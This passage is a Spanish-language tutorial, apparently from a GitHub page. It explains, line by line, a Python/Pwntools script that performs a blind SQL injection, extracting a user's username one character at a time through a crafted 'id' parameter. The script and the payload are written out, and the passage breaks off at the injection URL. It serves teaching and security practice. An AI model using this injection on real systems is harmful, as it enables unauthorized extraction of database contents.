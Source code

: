 - `main_url`: Especifica la URL del endpoint vulnerable.
    
- `characters`: Contiene todos los caracteres imprimibles para iterar en la inyección.
    

### Función principal `makeSQLI()`

```python
def makeSQLI():
```

Esta función ejecuta la inyección SQL caracter por caracter.

#### Uso de `log.progress` para mejorar la visualización

```python
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    p2 = log.progress("Datos recopilados:")
```

- `log.progress()`: Nos permite mostrar en tiempo real el progreso de la extracción.
    
- `p1` y `p2`: Son indicadores visuales de `Pwntools` para mostrar información.
    

#### Inicialización de la variable que contendrá la información extraída

```python
    extracted_info = ""
```

#### Espera de 2 segundos antes de iniciar el ataque

```python
    time.sleep(2)
```

#### Bucle para recorrer cada posición de la cadena de texto

```python
    for position in range(1, 50):
```

- Recorremos hasta 50 caracteres del `username`. Ajustamos este valor según el caso real.
    

#### Iteración sobre los caracteres imprimibles

```python
        for character in range(33,126):
```

- Probamos caracteres ASCII desde `33` hasta `126` (caracteres visibles).
    

#### Construcción de la inyección SQL

```python
            sqli_url = main_url + "?id=9 or (select(select ascii(substring(username,%d,1)) from users where id = 1)=%d)" % (position, character)
```
